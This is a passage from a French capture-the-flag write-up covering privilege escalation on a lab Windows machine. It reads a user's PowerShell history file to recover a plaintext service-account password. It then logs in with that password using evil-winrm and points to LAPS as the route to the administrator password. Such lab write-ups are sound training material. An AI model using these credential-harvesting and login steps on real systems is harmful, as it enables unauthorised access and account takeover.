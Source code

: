```sh
d-r---    9/15/2018   12:19 AM            Videos

  Directory: C:\Users\legacyy\Desktop
Mode            LastWriteTime      Length Name
____             ____________      ______ ____
-a         4/16/2022  4:40 PM          40 passwords
-ar        4/16/2022 12:23 AM          34 user.txt
-a         4/16/2022 10:26 AM     1935872 winPEASx64.exe
```

{{< /tab >}}
{{< /tabs >}}

## Elévation de privilèges

{{< tabs >}} {{< tab "Niveau 1" >}}

- Enumérer les informations générales de la machine afin d'avoir un maximum de contexte sur l'environnement.
- Enumérer les informations relatives à l'utilisateur (variables d'environnement, autorisations, historique, fichiers et dossiers créer par l'utilisateur, process...).
- Utiliser un script afin d'énumérer automatiquement toutes ces informations tel que WinPEAS.
- Renseignez-vous sur les processus que vous ne connaissez pas afin de ne pas louper des informations importantes.

{{< /tab >}}{{< tab "Niveau 2" >}}

Nous devons maintenant nous élever en privilèges afin d'obtenir le flag root.

Ici, nous devons rechercher dans l’historique des commandes de legacyy :
```powershell
cat C:\Users\Legacyy\Appdata\Roaming\microsoft\windows\powershell\psreadline\ConsoleHost_history.txt
Enter PEM pass phrase:
whoami
ipconfig /all
netstat ano select-string LIST
$so New-PSSessionOption -SkipCACheck -SkinCNCheck -SkipRevocationCheck
Sp ConvertTo-SecureString E3RSQ62*12p7PLICSKWaxuay -AsPlainText -Force Sc New-Object System.Management.Automation.PsCredential ('svc_deploy', $p) invoke-command-computername Localhost credential Sc-port 5986 -usessi
SessionOption Sso scriptblock (whoami)
get-aduser-filter-properties
exit
```
Nous voyons qu'un mot de passe a été utilisé pour svc_deploy : **E3R$Q62^12p7PLlC%KWaxuaV**.

On se connecte avec le utilisateur svc_deploy (toujours avec Evil-WinRM):
```sh
evil-winrm -i 10.10.11.152 -S -u svc_deploy -p E3R$Q62^12p7PLlC%KWaxuaV
```
De nouveau, en faisant `dir -R`, on se rend compte que LAPS est configuré. 
LAPS est un utilitaire Windows permettant de modifier de façon cyclique le mot de passe Administrateur local. Seuls les utilisateurs autorisés peuvent visualiser ce mot de passe.
Ce mot de passe est stocké dans les attributs Windows de l'ordinateur.
